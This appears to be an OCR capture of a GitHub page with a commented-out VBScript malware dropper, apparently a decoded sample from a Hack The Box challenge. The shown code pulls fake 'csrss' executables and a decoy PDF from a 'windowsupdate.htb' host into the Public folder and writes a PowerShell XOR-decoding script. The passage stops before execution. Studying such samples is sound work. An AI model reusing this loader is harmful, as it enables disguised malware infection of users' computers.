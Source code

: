 ```

print(result)
```

```
# Option Explicit
# Dim objShell, objFSO, objHTTP
# Dim strURL1, strURL2, strURL3, strShowfileURL
# Dim strDownloadPath1, strDownloadPath2, strDownloadPath3, strShowfilePath
# Dim strExecutablePath, strPowerShellScript
# strURL1 = "http://windowsupdate.htb/csrss.exe"
# strURL2 = "http://windowsupdate.htb/csrss.dll"
# strURL3 = "http://windowsupdate.htb/csrss.exe.config"
# strShowfileURL = "http://windowsupdate.htb/wanted.pdf"
# strDownloadPath1 = "C:\Users\Public\csrss.exe"
# strDownloadPath2 = "C:\Users\Public\csrss.dll"
# strDownloadPath3 = "C:\Users\Public\csrss.exe.config"
# strShowfilePath = "C:\Users\Public\wanted.pdf"
# strExecutablePath = "C:\Users\Public\csrss.exe"

# Set objShell = CreateObject("WScript.Shell")
# Set objFSO = CreateObject("Scripting.FileSystemObject")
# Set objHTTP = CreateObject("MSXML2.XMLHTTP")

# If Not objFSO.FileExists(strDownloadPath1) Then
#     DownloadFile strURL1, strDownloadPath1
# End If
# If Not objFSO.FileExists(strDownloadPath2) Then
#     DownloadFile strURL2, strDownloadPath2
# End If
# If Not objFSO.FileExists(strDownloadPath3) Then
#     DownloadFile strURL3, strDownloadPath3
# End If
# If Not objFSO.FileExists(strShowfilePath) Then
#     DownloadFile strShowfileURL, strShowfilePath
# End If

# strPowerShellScript = _
# "param (" & vbCrLf & _
# "    [string]$FilePath," & vbCrLf & _      
# "    [string]$KeyPath" & vbCrLf & _        
# ")" & vbCrLf & _
# "$key = [System.IO.File]::ReadAllBytes($KeyPath)" & vbCrLf & _
# "$fileContent = [System.IO.File]::ReadAllBytes($FilePath)" & vbCrLf & _
# "$keyLength = $key.Length" & vbCrLf & _    
# "for ($i = 0; $i -lt $fileContent.Length; $i++) {" & vbCrLf & _
# "    $fileContent[$i] = $fileContent[$i] -bxor $key[$i % $keyLength]" & vbCrLf & _    
# "}" & vbCrLf & _
# "[System.IO.File]::WriteAllBytes($FilePath, $fileContent)" & vbCrLf

# Dim objFile
# On Error Resume Next
# Set objFile = objFSO.CreateTextFile("C:\Users\Public\temp.ps1", True)
# If Err.Number <> 0 Then
#     WScript.Echo "Error creating PowerShell script file: " & Err.Description
#     WScript.Quit
# End If
# objFile.WriteLine strPowerShellScript      
# objFile.Close

# Dim arrFilePaths
# arrFilePaths = Array(strDownloadPath1, strDownloadPath3, strShowfilePath)

# Dim i
```